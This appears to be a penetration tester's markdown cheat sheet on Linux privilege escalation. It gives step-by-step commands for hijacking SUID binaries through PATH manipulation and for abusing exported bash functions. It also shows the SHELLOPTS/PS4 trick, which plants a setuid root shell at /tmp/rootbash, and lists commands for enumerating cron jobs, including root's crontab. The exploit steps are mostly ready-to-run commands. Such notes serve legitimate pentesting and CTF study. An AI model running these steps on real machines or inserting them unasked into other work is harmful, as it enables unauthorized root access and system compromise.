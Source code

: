 **Use cases**:
- SUID binary uses a binary by specifying only its name rather than the absolute path - **case 1**
- SUID binary uses a binary, specified with absolute path, but of which we have full privileges - **case 2**

**How can be detected?**
- after execution we get an error, fo example `sh: 1: <binary>: not found`
- `strings <SUID binary>`
- `strace -v -f -e execve <SUID binary> 2>/dev/null | grep exec`

Steps (case 1):
1. `echo "/bin/sh" > <BINARY_NAME_USED_BY_SUID_BINARY>`
2. `chmod +x <BINARY_NAME_USED_BY_SUID_BINARY>`
3. `export PATH=$(pwd):$PATH`
4. `<SUID BINARY EXECUTION>`

## abusingshellfeatures

### abusing shell features #1

Requirements:
- bash < 4.2-048
- you can define user function with an absolute filename

Steps:
1. check bash version: `bash --version`
2. identify if there are some *service* used by SUID binary: `strings <SUID binary>`
3. create a function: `function <PROGRAM> { /bin/bash -p; }`
4. function export: `export –f <PROGRAM>`
5. execute SUID binary

Example: [https://rioasmara.com/2021/02/01/linux-privilege-escalation-abusing-shell-features/](https://rioasmara.com/2021/02/01/linux-privilege-escalation-abusing-shell-features/)

### abusing shell features #2

Requirement:
- bash < 4.4

Steps:
1. check bash version: `bash --version`
2. identify if there are some binary that are using *system* function: `strings <SUID binary>`
3. exploit: `env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chown root /tmp/rootbash; chmod +s /tmp/rootbash)' <SUID binary>`
4. `/tmp/rootbash -p`

# cron

**Enumeration**:
- system cron:
	- `cat /etc/crontab`
	- `cat /etc/cron.d/*`
- current user cron:
	- `crontab -l`
	- `sudo crontab -l`
	- `cat /var/spool/cron/crontabs/<username> /var/spool/cron/<username>`
- to check:
	- `ls -al /etc/cron* /etc/at*`
	- `cat /etc/cron* /etc/at* /etc/anacrontab /var/spool/cron/crontabs/root 2>/dev/null | grep -v "^#"`
- `/var/log/syslog` contains info related to cron activities: `grep -i cron /var/log/syslog`
